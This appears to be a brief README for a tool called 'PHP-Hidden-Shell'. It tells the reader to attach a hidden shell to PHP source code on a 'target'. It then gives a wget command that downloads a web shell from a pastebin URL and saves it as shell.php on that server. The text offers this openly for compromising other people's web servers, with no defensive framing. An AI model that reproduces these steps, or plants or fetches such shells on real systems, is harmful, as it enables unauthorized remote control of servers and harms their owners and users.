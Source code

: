 # PHP-Hidden-Shell
You can glue this hidden shell to any source of PHP on your target,
And then try to download & Make output file from your favorite web-shell hosted by pastebin for example :

wget http://pastebin.com/raw/YourFavShell -O shell.php
